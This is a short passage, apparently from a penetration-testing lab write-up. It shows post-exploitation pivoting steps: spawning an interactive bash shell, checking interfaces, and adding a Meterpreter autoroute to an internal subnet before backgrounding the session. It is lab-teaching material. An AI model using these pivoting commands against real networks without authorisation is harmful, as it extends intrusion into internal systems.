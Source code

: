 ```bash
/bin/bash -i
ifconfig
exit
```

<figure><img src="../../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

* Add the route within `meterpreter` and background the meterpreter session

```bash
run autoroute -s 192.26.158.2
background
```

<figure><img src="../../../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

